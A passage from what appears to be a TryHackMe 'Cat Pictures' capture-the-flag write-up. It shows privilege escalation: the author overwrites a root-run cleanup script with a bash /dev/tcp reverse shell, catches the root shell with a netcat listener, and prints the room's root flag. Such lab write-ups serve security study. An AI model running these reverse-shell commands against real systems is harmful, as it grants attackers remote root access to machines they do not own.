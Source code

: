 Modify the file’s content with a reverse shell payload:

```tsx

root@7546fa2336d6:/# echo "/bin/bash -i >& /dev/tcp/10.8.97.213/4446 0>&1" > /opt/clean/clean.sh
root@7546fa2336d6:/# cat /opt/clean/clean.sh
/bin/bash -i >& /dev/tcp/10.8.97.213/4446 0>&1
root@7546fa2336d6:/#
```

********Note********: If you check the `/home` directory, there is nothing inside which means the `root` user is the only user on the current system → Within the `.bash_history` that the current user interacted many times with the bash file `clean.sh` → File’s permission such as ****************writable**************** is not the concern.

Start the ******************************Netcat Listener****************************** on the local machine with another port and wait for awhile (20 → 60 seconds) then we get connect to the machine `cat-pictures` as `root`:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/CatPictures]
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.166.230] 34150
bash: cannot set terminal process group (2429): Inappropriate ioctl for device
bash: no job control in this shell
root@cat-pictures:~# ls -l
ls -l
total 8
drwxr-xr-x 2 root root 4096 Apr  2  2021 firewall
-rw-r--r-- 1 root root   73 Mar 25  2021 root.txt

root@cat-pictures:~# cat root.txt
cat root.txt
Congrats!!!
Here is your flag:

4a98e43d78bab283938a06f38d2ca3a3c53f0476
root@cat-pictures:~#
```